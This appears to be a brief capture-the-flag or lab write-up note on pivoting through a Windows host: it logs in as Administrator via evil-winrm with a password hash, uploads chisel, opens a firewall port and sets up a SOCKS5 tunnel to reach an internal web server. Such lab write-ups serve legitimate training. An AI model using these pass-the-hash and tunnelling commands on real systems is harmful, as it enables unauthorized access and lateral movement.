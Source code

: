 
# Host:
```
10.200.101.150
```

# Nmap
```

```
UDP?

Connect with evil-winrm:
```
evil-winrm -i 10.200.101.150 -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1
```
Now in evil-winrm upload chisel.exe:
```
upload chisel.exe
```


Enable port 49500 in firewall:
```
netsh advfirewall firewall add rule name="cr3t3ht3" dir=in action=allow protocol=tcp localport=49500
```
Now start a server:
```
.\chisel.exe server -p 49500 --socks5
```

Connect to the server from kali machine:
```
chisel client 10.200.101.150:49500 1080:socks
```
![](../../attachment/eae7b2c1ad15f9f81ce76fd640d48f3d.png)
We are connected.

Now we can access webserver on http://10.200.101.100/
![](../../attachment/20c493c20f407a666bc6b99e0f5bb158.png)

